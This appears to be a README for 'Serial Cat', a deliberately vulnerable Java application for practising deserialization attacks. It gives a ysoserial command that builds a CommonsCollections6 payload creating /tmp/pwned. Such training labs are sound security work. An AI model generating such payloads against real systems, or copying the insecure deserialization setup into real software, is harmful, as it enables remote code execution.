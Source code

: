 ![](/serialcat/WebContent/cat.png?raw=true =192x166)

Serial Cat is a little application that allows deserialization attacks including a bunch of insecure libraries on the class path.

Deploy at your own risk.

Use with ysoserial : https://github.com/frohoff/ysoserial

The following payload should generate a file in /tmp in linux:

        java -jar ysoserial-master.jar CommonsCollections6 "touch /tmp/pwned"|base64